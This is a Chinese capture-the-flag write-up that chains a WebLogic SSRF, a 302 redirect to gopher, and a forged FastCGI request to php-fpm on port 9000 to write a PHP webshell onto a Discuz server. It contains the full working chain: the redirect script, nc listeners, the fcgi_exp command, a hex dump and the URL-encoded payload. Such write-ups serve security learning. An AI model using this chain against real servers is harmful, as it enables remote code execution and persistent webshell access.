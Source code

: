 # 三个白帽之来自星星的你（一）writeup

第一次正式做三个白帽的题目，能做出来挺不容易，还踩了很多坑...

0x00 挑战介绍
=========

来自星星的你被我给丢了，我可能需要用我所有的一切才能把你找回，编了两句就编不下去了，好吧，我承认这是一期渗透题，就是这么直接。

*   tips 1: SSRF
*   tips 2: 或许可以扫描下目录？
*   tips 3: /console/ 这个目录会对你有帮助

0x01 wp
=====

Discuz X3.2
-----------

打开页面首先是Discuz X3.2的站，搜了搜发现是6月1号才发布的新版本，稍微搜了搜网上的几个洞发现都已经被修复了，于是咸鱼了一夜，获得**hint:ssrf**

搜索依法发现长亭的rr菊苣发了一篇文章

[https://blog.chaitin.com/gopher-attack-surfaces/](https://blog.chaitin.com/gopher-attack-surfaces/)

里面提到discuz X3.2存在ssrf，利用ssrf+gopher协议可getshell

但是这个利用方式有个一个很重要的问题就是服务器必须开启 Gopher wrapper，且php运行方式是fastcgi。

扫一波目录发现了info.php，通过phpinfo()我们发现并没有开启 Gopher wrapper。

咸鱼了一会儿发现了**hint3/console/**

通过这个发现存在weblogin站。。。

webLogin
--------

这里的洞很简单了，稍微搜下发现

[WooYun: 央视网SSRF可窥探内网（Weblogic SSRF案例）](http://drops.com:8000/%3Ca%20target=)">[WooYun: 央视网SSRF可窥探内网（Weblogic SSRF案例）](http://www.wooyun.org/bugs/wooyun-2015-0136698)

测试发现**http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp**这里的洞确实存在。

而且可以配合前面提到的gopher协议getshell

根据长亭博客的文章首先测试

在服务器构造

```
<?php
header("Location:gopher://服务器ip:2333/_test");
?>

```

然后在服务器监听2333端口

```
nc -lvv 2333

```

提交请求

```
http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp?
operator=http://服务器ip/gopher.php
&rdoSearch=name
&txtSearchname=sdf
&txtSearchkey=

```

发现确实收到了test，确认gopher可利用

那么就是构造payload了

有篇很重要的文章关于fastcgi的利用

[http://zone.wooyun.org/content/1060](http://zone.wooyun.org/content/1060)

用exp生成payload

```
./fcgi_exp system 127.0.0.1 2333 /opt/discuz/info.php "echo ‘$_GET[x]($_POST[xx]);’ > /opt/discuz/data/test.php"

```

监听2333端口

```
nc -lvv 2333 > 1.txt

```

我们可以看下1.txt

```
root@ubuntu:/home/wwwroot/default/fcgi_exp# xxd 1.txt
0000000: 0101 0001 0008 0000 0001 0000 0000 0000  ................
0000010: 0104 0001 0112 0600 0f14 5343 5249 5054  ..........SCRIPT
0000020: 5f46 494c 454e 414d 452f 6f70 742f 6469  _FILENAME/opt/di
0000030: 7363 757a 2f69 6e66 6f2e 7068 700d 0144  scuz/info.php..D
0000040: 4f43 554d 454e 545f 524f 4f54 2f0f 1053  OCUMENT_ROOT/..S
0000050: 4552 5645 525f 534f 4654 5741 5245 676f  ERVER_SOFTWAREgo
0000060: 202f 2066 6367 6963 6c69 656e 7420 0b09   / fcgiclient ..
0000070: 5245 4d4f 5445 5f41 4444 5231 3237 2e30  REMOTE_ADDR127.0
0000080: 2e30 2e31 0f08 5345 5256 4552 5f50 524f  .0.1..SERVER_PRO
0000090: 544f 434f 4c48 5454 502f 312e 310e 0343  TOCOLHTTP/1.1..C
00000a0: 4f4e 5445 4e54 5f4c 454e 4754 4831 3033  ONTENT_LENGTH103
00000b0: 0e04 5245 5155 4553 545f 4d45 5448 4f44  ..REQUEST_METHOD
00000c0: 504f 5354 095b 5048 505f 5641 4c55 4561  POST.[PHP_VALUEa
00000d0: 6c6c 6f77 5f75 726c 5f69 6e63 6c75 6465  llow_url_include
00000e0: 203d 204f 6e0a 6469 7361 626c 655f 6675   = On.disable_fu
00000f0: 6e63 7469 6f6e 7320 3d20 0a73 6166 655f  nctions = .safe_
0000100: 6d6f 6465 203d 204f 6666 0a61 7574 6f5f  mode = Off.auto_
0000110: 7072 6570 656e 645f 6669 6c65 203d 2070  prepend_file = p
0000120: 6870 3a2f 2f69 6e70 7574 0000 0000 0000  hp://input......
0000130: 0104 0001 0000 0000 0105 0001 0067 0100  .............g..
0000140: 3c3f 7068 7020 7379 7374 656d 2827 6563  <?php system('ec
0000150: 686f 20e2 8098 5b61 5d28 5b68 685d 293b  ho ...[x]([xx]);
0000160: e280 9920 3e20 2f6f 7074 2f64 6973 6375  ... > /opt/discu
0000170: 7a2f 6461 7461 2f64 646f 672e 7068 7027  z/data/test.php'
0000180: 293b 6469 6528 272d 2d2d 2d2d 3076 6364  );die('-----0vcd
0000190: 6233 346f 6a75 3039 6238 6664 2d2d 2d2d  b34oju09b8fd----
00001a0: 2d0a 2729 3b3f 3e00                      -.');?>.

```

然后需要urlencode一下

```
>>> f = open('1.txt')
>>> ff = f.read()
>>> from urllib import quote
>>> quote(ff)
'%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%12%06%00%0F%14SCRIPT_FILENAME/opt/discuz/info.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%01%00%3C%3Fphp%20system%28%27echo%20%E2%80%98%5Bx%5D%28%5Bxx%5D%29%3B%E2%80%99%20%3E%20/opt/discuz/data/test.php%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00'

```

构造gopher.php

```
<?php
header("gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%12%06%00%0F%14SCRIPT_FILENAME/opt/discuz/info.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH103%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00g%01%00%3C%3Fphp%20system%28%27echo%20%E2%80%98%5Bx%5D%28%5Bxx%5D%29%3B%E2%80%99%20%3E%20/opt/discuz/data/test.php%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00");
?>

```

请求

```
http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp?
operator=http://ip/gopher.php
&rdoSearch=name
&txtSearchname=sdf
&txtSearchkey=
&txtSearchfor=
&selfor=Business+location
&btnSubmit=Search

```

由于discuz的data默认可写，所以成功写入webshell，有个问题就是不知道为什么一直不能反弹shell进来

0x02 题目之后？
=====

在做完题目之后想要深究一波原理，结果突然发现题目其实去年的hitcon quals的web400 lalala

[http://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97](http://kb.hitcon.org/post/131488130087/hitcon-ctf-2015-quals-web-%E5%87%BA%E9%A1%8C%E5%BF%83%E5%BE%97)

整个题目的核心概念就是通过302 绕过限制 SSRF，然后通过 SSRF 中的 gopher 去利用本地的 FastCGI prtocol 实现远程代码执行

实际中如果php fastcgi对公网开放，那么就可以拿shell

php-fpm默认监听9000端口，使用 PHP_ADMIN_VALUE 把 allow_url_include 设为 on 以及新增 auto_prepend_file，利用php://input执行php代码写一个shell